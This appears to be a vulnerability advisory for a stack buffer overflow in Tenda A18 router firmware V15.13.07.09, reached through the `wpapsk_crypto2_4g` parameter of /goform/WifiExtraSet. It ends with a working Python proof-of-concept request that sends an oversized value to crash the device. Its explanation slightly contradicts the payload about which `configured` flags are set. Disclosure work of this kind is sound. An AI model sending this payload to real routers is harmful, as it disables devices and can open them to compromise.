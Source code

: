 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

V15.13.07.09

## Vulnerability details

The Tenda A18 V15.13.07.09 has a stack overflow vulnerability located in the `fromSetWirelessRepeat` function. This function accepts the `wpapsk_crypto2_4g` parameter from a POST request by variable `wpapsk_crypto` and passes it to the `set_repeat24` function.

![image-20240307201720514](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201720514.png)

![image-20240307201729018](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201729018.png)

Within `set_repeat24`, the array `wpapsk_cryptovalue` is fixed at 16 bytes. However, since the user has control over the input of `wpapsk_crypto2_4g`, the statement `strcpy(wpapsk_cryptovalue, wpapsk_crypto);` leads to a buffer overflow. The user-supplied `wpapsk_crypto5g` can exceed the capacity of the `wpapsk_cryptovalue` array, thus triggering this security vulnerability.

![image-20240307201809939](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201809939.png)

![image-20240307200640100](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200640100.png)

We set both variables `configured2_4g` and `configured5g` not equal to the string 'true' to trigger the execution of the vulnerable code section within the `strcmp` if condition.

![image-20240307200712324](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200712324.png)

## PoC

```python
import requests

ip = '192.168.84.101'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
    'configured2_4g': 'true',
    'configured5g': 'truee',
    'extSSID2_4g':'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
} # 0

res = requests.post(url=url, data=payload)

print(res)
```

![image-20240307201536423](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201536423.png)